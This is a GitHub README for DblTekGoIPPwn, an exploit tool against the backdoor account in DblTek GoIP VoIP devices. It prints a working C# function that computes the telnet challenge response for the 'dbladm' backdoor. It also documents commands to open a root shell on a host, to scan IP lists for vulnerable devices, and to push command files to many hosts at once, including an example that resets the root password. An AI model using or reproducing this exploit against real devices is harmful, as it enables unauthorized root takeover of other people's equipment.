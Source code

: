 # DblTekGoIPPwn

Tool to exploit challenge response system in vulnerable DblTek GoIP devices. Can generate responses to
specified challenges, test hosts for the vulnerability, run commands on vulnerable hosts, and drop
into a root shell on any vulnerable host.

## The Vulnerability

On March 2nd, 2017, Trustwave released a vulnerability that security researchers found in the DblTek
GoIP VoIP Phone. The vulnerability was a backdoor in the firmware for an account named 'dbladm'. When
a user entered this as their username in a telnet prompt, the system would present a challenge that when
followed with the right response, gave the user a root shell on the system.

The problem with such a challenge response system is that the devices are as secure as the algorithm for
generating the responses, which was reverse engineered from firmware binaries provided by DblTek. Using this
algorithm, a root shell can be aquired on ANY DblTek GoIP device.

Original Article: https://www.trustwave.com/Resources/SpiderLabs-Blog/Undocumented-Backdoor-Account-in-DBLTek-GoIP/

Using the description of the backdoor provided in the article, I was able to write what I believe to be
some of the first exploit code for this vulnerability. The core of this is of course the algorithm to
generate the response based on a given challenge. Here is a function to do this written in C#.

```C#
static string ComputeResponse(string challengeStr)
{
    int challenge = Convert.ToInt32(challengeStr.Substring(1)); // Get just the number after 'N'.

    string modified = (challenge + 20139 + (challenge >> 3)).ToString(); // Perform some dummy 1337 operations.

    byte[] buffer = new byte[64];
    // Copy the string into the first part of the buffer.
    for (int i = 0; i < modified.Length; i++)
        buffer[i] = (byte)modified[i];

    var md5 = MD5.Create();
    byte[] hash = md5.ComputeHash(buffer); // Calculate the MD5 of the buffer.

    StringBuilder sb = new StringBuilder(); // Will hold the results.
    // Take the unpadded hex value of the first six bytes of the MD5.
    for (int i = 0; i < 6; i++)
        sb.Append(hash[i].ToString("x"));

    return sb.ToString(); // Profit
}
```

## DblTekGoIPPwn Command Line Interface (CLI)

When DblTekPwn is ran without arguments, the help is displayed. This is the output:

```
USAGE: DblTekPwn.exe [MODE] [HOSTS] [OUTPUT]

[MODE]:
-c --compute-response [CHALLENGE]         Computes a response to the given challenge.
-r --root-shell                           Starts a root shell with the vulnerable host.
-s --send-commands    [COMMAND_FILE]      Sends commands from a file to vulnerable hosts.
-t --test                                 Tests hosts and determines if they are vulnerable.
-h --help                                 Displays this help and exits.

[HOSTS]:
-n --name             [IP]                Specifies a single IP address.
-f --file             [IP_FILE]           Specifies a file with IP\nIP\nIP.

[OUTPUT]:
-o --output           [OUTPUT_FILE]       Specifies an output file. Default stdin.
```

## Examples

### Getting a Root Shell on a Vulnerable System

DblTekGoIPPwn makes it easy to get a root shell on any vulnerable system. Simply run the
following command using the vulnerable IP.

```
DblTekPwn.exe --root-shell --name 192.168.1.1
```

You will see output that looks like this:
```
Password: ***********

```

From here you can begin entering commands (there is no shell prompt).

### Calculating a Challenge Response

Say you wanted to calculate the response to a GoIP challenge ```N1746203308```. You would just
run the following command.

```
DblTekPwn --compute-response N1746203308
```

The output will be the response:
```
d6176d3aab2
```

### Checking a List of IPs

Say you wished to check ```list.txt``` of IPs for GoIPs that are vulnerable and send this output
to ```results.txt```. First make sure that the IPs are in format ```ip:port``` (port is default 23)
and that the IPs are seperated by a newline ```\n```. The following command could then be ran.

```
DblTekPwn.exe --test --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the IP is vulnerable.

### Sending Commands to a List of IPs

Say you had a list of commands (which is really a list of telnet inputs) in ```cmds.txt```
to send to ```list.txt``` of IPs and send the output to ```results.txt```. First make sure
that the IPs are in format ```ip:port``` (port is default 23) and that BOTH the IPs AND commands
are seperated by a newline ```\n``` in their respective files. The following command could then
be ran.

```
DblTekPwn.exe --send-commands cmds.txt --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

cmds.txt:
```
passwd root
toor
toor

exit
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the connection was successfully
made and the commands delivered.
